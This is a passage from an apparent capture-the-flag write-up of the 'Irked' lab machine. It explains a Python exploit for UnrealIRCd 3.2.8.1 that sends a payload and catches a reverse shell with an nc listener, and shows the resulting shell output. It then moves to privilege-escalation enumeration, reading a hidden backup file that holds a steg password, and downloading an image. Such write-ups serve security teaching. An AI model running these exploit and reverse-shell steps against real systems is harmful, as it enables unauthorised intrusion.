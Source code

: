      33     print("\n[!] Exiting shell")
    

Here’s what it does:

*   Checks for right number of args and set variables, or prints usage. \[Lines 7-11\]
*   Connects to the host, gets first message from host. \[13-20\]
*   Sends payload and closes socket. \[22-25\]
*   Uses to run a listener, waits for callback, and then lets me interact with it until ctrl-c to exit. \[27-33\]`subprocess``nc`

Here’s how it runs:

    root@kali# ./unreal_3.2.8.1_exploit.py 10.10.10.117 6697 10.10.14.14 443
    [*] Connecting to 10.10.10.117:6697
    [*] Sending payload
    [+] Payload sent. Closing socket.
    [*] Opening listener. Callback should come within a minute
    bash: cannot set terminal process group (634): Inappropriate ioctl for device
    bash: no job control in this shell
    ircd@irked:~/Unreal3.2$ id
    id
    uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
    

## Privesc: ircd –> djmardov

### Enumeration

I can find , but I can’t read it:`user.txt`

    ircd@irked:/home/djmardov/Documents$ cat user.txt 
    cat: user.txt: Permission denied
    

In that same directory, there’s a hidden file:`.backup`

    ircd@irked:/home/djmardov/Documents$ ls -la
    total 16
    drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
    drwxr-xr-x 18 djmardov djmardov 4096 Nov  3 04:40 ..
    -rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
    -rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
    
    ircd@irked:/home/djmardov/Documents$ cat .backup
    Super elite steg backup pw
    UPupDOWNdownLRlrBAbaSSss
    

### Steg

With the reference to steg, I immediately think of the big image on the website. I’ll download a copy:

    root@kali# wget 10.10.10.117/irked.jpg
    --2019-04-04 08:56:51--  http://10.10.10.117/irked.jpg
    Connecting to 10.10.10.117:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 34697 (34K) [image/jpeg]
    Saving to: ‘irked.jpg’
    